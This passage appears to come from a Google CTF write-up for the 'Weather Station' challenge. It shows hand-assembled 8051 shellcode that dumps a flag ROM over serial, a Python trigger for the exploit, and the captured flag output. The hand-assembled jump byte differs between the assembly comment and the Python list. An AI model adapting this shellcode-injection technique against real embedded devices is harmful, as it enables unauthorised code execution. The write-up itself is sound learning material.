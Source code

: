 Nothing beats the feeling of seeing a carefully placed 'A' on the screen :}

![test exploit output](./res/exploit.png)

## Get that flag...ROM

Now let's write a real shellcode.

_I could definitely use an 8051 assembler for this task but for some reason, becoming the 8051 assembler myself was too much fun to give up_

```asm
mov r0, 0                   ; 78 0                  ;init counter

mov FLAGROM_ADDR, r0        ; 88 ee
mov A, FLAGROM_DATA         ; e5 ef
mov SERIAL_OUT_DATA, A      ; f5 f2                 
inc r0                      ; 08                    ;increment counter
cjne r0, 256, 0xf7          ; b8 ff f7              ;stop if counter is 256
```

Plug it into the exploit and write a convenient trigger function...
```python
SHELLCODE = [ 0x78, 0x0, 0x88, 0xee, 0xe5, 0xef, 0xf5, 0xf2, 0x8, 0xb8, 0xff, 0xf6 ] 
def trigger():    
    
    log.info("Here goes your flag ^^")    
    
    t.recvuntil("?")    
    t.sendline("r 69 69")    
    
injectShellcode()    
hijackExecution()     
trigger() 
```

Execute!
```
[*] Switching to interactive mode
 CTF{DoesAnyoneEvenReadFlagsAnymore?}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Weather Station
?
```

A flag in Google CTF felt like a medal for a noob like me (◠﹏◠). It was the only challenge I could solve but it taught me how to do research one step at a time, going deeper until I reached the solution.

